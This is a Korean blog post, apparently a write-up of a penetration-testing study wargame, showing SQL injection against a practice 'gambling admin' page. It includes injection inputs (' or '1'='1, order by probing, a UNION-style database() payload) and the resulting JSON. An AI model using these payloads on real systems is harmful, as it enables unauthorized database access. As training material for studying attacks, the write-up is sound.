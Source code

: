 ```yaml
---
layout: post
title:  노말틱 모의해킹 스터디 6주차 워게임_보너스 
author: leewoojin
date: 2025-05-13 00:00:00 +0900
categories: [Pentest, W6]
tags: []
---
```

## [도박 관리자] 문제에 들어가면 아래와 같은 웹페이지를 확인할 수 있습니다.

<img width="1510" alt="Image" src="https://github.com/user-attachments/assets/1ffce011-8bd8-4187-af8d-2615b024fdb3" />

웹페이지 url 에서 확인은 못하지만 아래와 같은 경로가 출력되는 것을 알 수 있습니다. 
```
GET /spec1/game_info.php?game_name=Lucky%20Slots HTTP/1.1
```
<img width="1099" alt="Image" src="https://github.com/user-attachments/assets/aa1cdd07-12ab-4087-b6e1-2dd9f7a7e159" />

버프에서 확인한 경로를 url로 입력하면 json 데이터를 확인 할 수 있습니다. 

<img width="777" alt="Image" src="https://github.com/user-attachments/assets/7cd40b5b-ae41-4943-8509-7f1ea0ac8e5a" />

`' or '1'='1 ` 를 사용하여 sqli 공격이 된다는 것을 알 수 있습니다. 
<img width="1007" alt="Image" src="https://github.com/user-attachments/assets/14e1faf9-02ff-4047-8318-dab44cf7f329" />

`' order by 1`를 사용했을 때 아래와 같은 문법 오류가 나고 있는 것을 
확인하고 
```json 
{
  "error": "Database error",
  "message": "SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 4"
}
```

그냥 json 목록을 보면 12개라서 order by로 컬럼수를 확인하지 않고 넘어갔습니다. 

### DB명을 확인
`spec1`

1,database(),3,4,5,6,7,8,9,10,11,12--   
```json
[
  {
    "id": "1",
    "game_name": "spec1",
    "total_players": "3",
    "high_score": "4",
    "best_player": "5",
    "average_score": "6",
    "last_updated": "7",
    "description": "8",
    "daily_players": "9",
    "weekly_players": "10",
    "monthly_players": "11",
    "total_playtime": "12"
  }
]
```
